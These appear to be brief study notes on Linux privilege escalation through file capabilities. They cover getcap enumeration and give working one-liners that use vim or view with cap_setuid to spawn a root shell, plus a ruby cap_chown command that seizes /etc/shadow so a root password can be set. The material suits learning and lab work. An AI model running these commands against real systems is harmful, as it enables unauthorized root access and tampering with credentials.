



Capabilities
Capabilities are used to give granular preveleges to binary and processes.
man capabilites -→ More Info
getcap -r / : Tool to list enabled capabilites.
getcap -r / 2>/dev/null : As a non preveleged user it gives a lot of error. Thus we add 2>/dev/null to see only the output
eg. cap_setuid+ep

For example: vim has capabilities of setuid.
Note: If we list vim binary, we can't see any differnece.

Now, we can use vim from GTFOBin capabilities section
./vim -c ':py3 import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'
Note: py3 → python3 or py → python or py2 → python2
Note: view can be used using the same way as it is also having setuid capability
./view -c ':py import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'
eg. cap_chown+ep

/usr/local/bin/ruby -e "File.chown(1002, 1002, '/etc/shadow')"
This is change the ownership of the /etc/shadow file to our controlled user. Next, we can add a root password & switch to root.